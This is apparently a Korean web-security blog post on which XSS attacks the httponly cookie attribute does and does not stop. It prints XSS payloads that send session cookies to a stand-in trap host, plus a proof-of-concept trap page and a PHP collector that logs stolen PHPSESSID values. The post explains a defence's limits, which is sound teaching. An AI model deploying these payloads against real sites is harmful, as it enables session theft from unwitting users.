 ```yaml
---
layout: post
title: "httponly 속성이 XSS를 어느정도 방어하는 알아보기"
categories: [웹보안]
tags: [웹보안, httponly, XSS]
toc: true
last_modified_at: 2024-02-22 17:02:00 +0900
---
```


# 개요
- 쿠키에 `httponly` 속성이 있으면 XSS 공격에 대해서 어떻게 보험적인 방어책이 되나 정리한다. 
- 이 속성이 있으면 Javascript로는 쿠키에 접근할 수 없기 때문에 어느정도 XSS방어가 될 것 같지만 구체적으로 어떤 시나리오에 대해서 방어가 되고, 어떤 시나리에서는 방어가 안되는지를 정리해둔다. 


# 케이스 1
- 어떤 사이트에 XSS 취약점이 있어서 임의의 자바스크립트를 실행시키는게 가능하다. victim을 함정사이트에 유도한다. 이 함정사이트에는 iframe으로 취약한 사이트에서 자바스크립트를 실행하여 해당 사이트를 쿠키에 접근해 함정사이트로 그 값을 전송하는 코드가 있다. 예를들어 다음과 같다. 취약한 사이트의 쿠키 값에 접근할 때 `document.cookie`라는 자바스크립트 코드로 접근하고 있다. 

```html
<html><body>
염가 상품 정보
<br><br>
<iframe width=320 height=100 src="http://XSS가존재하는취약한사이트URL?keyword=<script>window.location='http://함정사이트URL?sid='%2Bdocument.cookie;</script>"></iframe>
</body></html>

```

- 이런 경우는 `httponly` 속성이 있으면 접근하지 못하기 때문에 적절한 방어책이 된다. 

# 케이스 2
- 어떤 사이트에 XSS 취약점이 있어서 임의의 자바스크립트를 실행시키는게 가능하다. 자바스크립트의 XMLHttpRequest나 fetch API 를 사용해서 취약점이 있는 사이트의 쿠키를 공격자의 서버로 전송한다. 

```html
<iframe width=500 height=300 src="http://XSS가존재하는취약한사이트URL?keyword=<script>var xhr = new XMLHttpRequest();xhr.open('POST','http://함정사이트URL');xhr.withCredentials=true;xhr.send();</script>"></iframe>
```

- 이 경우는 `httponly` 속성이 있어도 전송되기 때문에 방어하지 못한다. 

## POC용 소스코드 
트랩 사이트

```html
<html><body>
싼 상품정보
<br><br>
<iframe width=500 height=300 src="http://example.jp/43/43-001.php?keyword=<script>var xhr = new XMLHttpRequest();xhr.open('POST','http://trap.example.com/43/43-xml-request-cookie-server.php');xhr.withCredentials=true;xhr.send();</script>"></iframe>
</body></html>

```

공격자 서버

```php
<?php
  session_start();
  error_log('[XML Request Cookie Collect Server]!!!');
  // CORS 헤더가 있던 없던 송신된다.
  //header('Access-Control-Allow-Origin: http://example.jp');
  //header('Access-Control-Allow-Credentials: true');
  $sid = $_COOKIE["PHPSESSID"];
  error_log($sid);
  // // echo session_id();
  // $myfile = fopen("phpsessids.txt", "a")
  // fwrite($myfile, $sid + "\n");
  // fclose($myfile);
?>
</body>

```